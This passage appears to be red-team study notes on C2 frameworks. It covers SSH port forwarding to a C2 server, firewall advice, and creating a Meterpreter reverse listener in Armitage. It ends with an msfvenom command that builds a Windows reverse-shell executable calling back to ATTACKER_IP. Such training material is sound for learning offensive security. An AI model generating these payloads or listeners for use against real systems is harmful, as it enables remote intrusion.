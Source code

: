 <u>Another example</u>:
![](/assets/img/Pasted image 20221130211456.png)

![](/assets/img/Pasted image 20221130211512.png)

	- Say, your C2 server is at 'home' and you try to connect it from the outside.
	- Your C2 server is protected by a firewall.

- Now that you have an SSH remote port forward set up, you can now connect to your C2 server running on TCP/55553.
- As a reminder, Armitage does NOT support listening on a loopback interface (**127.0.0.1 - 127.255.255.255**) `[general C2 server admin advice]`
- You will find this advice more centric to C2 servers like Covenant, Empire and many others.

```
- We highly recommend putting firewall rules in place for C2 servers that must listen on a public interface so only the intended users can access your C2 server.
- One way to do it is to host Cloud infrastructure, you can set up a Security Group or use a host-based firewall solution like UFW or IPTables.
```

### Creating a Listener in Armitage
- Next, we're going to move onto a topic that all C2 servers have - `this being listener creation`.
- To stay on topic, we will demo how to setup a basic listener with Armitage then explore some of the other theoretical listeners you may encounter in various other C2 Frameworks.

		- Let's create a basic Meterpreter Listener running on TCP/31337.
		1. Click on Armitage dropdown
		2. Click Listeners
		3. Click on "Reverse (wait for)"

![](/assets/img/Pasted image 20221130212805.png)

- After clicking "Reverse", a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select.
- There are two options you can choose from:

		- Shell
		- Meterpreter

![](/assets/img/Pasted image 20221130212901.png)

- After pressing enter, a new pane will open up, confirming that your listener has been created:

![](/assets/img/Pasted image 20221130212942.png)

- After setting up a listener, you can:

		- generate a standard `windows/meterpreter/reverse_tcp` reverse shell using MSFvenom
		- set the LHOST to the Armitage server to receive callbacks to our Armitage server.

<u>Format</u>:
```shell-session
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
```

